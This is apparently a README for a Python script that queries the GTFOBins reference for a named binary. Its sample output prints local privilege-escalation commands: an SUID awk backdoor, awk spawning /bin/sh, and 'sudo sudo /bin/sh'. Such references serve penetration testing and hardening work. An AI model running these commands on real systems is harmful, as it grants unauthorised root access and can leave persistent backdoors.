 # GTFOBins

Execution Instructions
To search for information about a specific binary, such as awk, and filter by the SUID section, run:

```c
python3 GTFOBins.py -b awk -s SUID
```
```c
❯ python3 GTFOBins.py -b awk -s suid
Information for binary 'awk' from GTFOBins:
============================================================

SUID
----
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
sudo install -m =xs $(which awk) .

LFILE=file_to_read
./awk '//' "$LFILE"
--------------------------------------------------------------------------

Limited SUID
------------
If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via system()-like invocations) it only works on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
sudo install -m =xs $(which awk) .

./awk 'BEGIN {system("/bin/sh")}'
---------------------------------------------------------------------
```

To search without filtering by a specific section, simply omit the -s argument:

```c
python3 GTFOBins.py -b sudo
```

```c
❯ python3 GTFOBins.py -b sudo
Information for binary 'sudo' from GTFOBins:
============================================================

Sudo
----
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
sudo sudo /bin/sh
-----------------
```

To see the help for the script, you can use:

```c
python3 GTFOBins.py -h
```

```c
❯ python3 GTFOBins.py -h
usage: GTFOBins.py [-h] -b BINARY [-s SECTION]

Fetch and display GTFOBins information for a given binary.

options:
  -h, --help            show this help message and exit
  -b BINARY, --binary BINARY
                        Name of the binary to search for on GTFOBins.
  -s SECTION, --section SECTION
                        Specific section to filter the output (e.g., SUID, Sudo).

Example: python3 GTFOBins.py -b awk -s SUID

```

This will display a description of the script, how to use the -b and -s arguments, and provide an example of usage.

- Official Site : (GTFOBINS)[https://gtfobins.github.io/]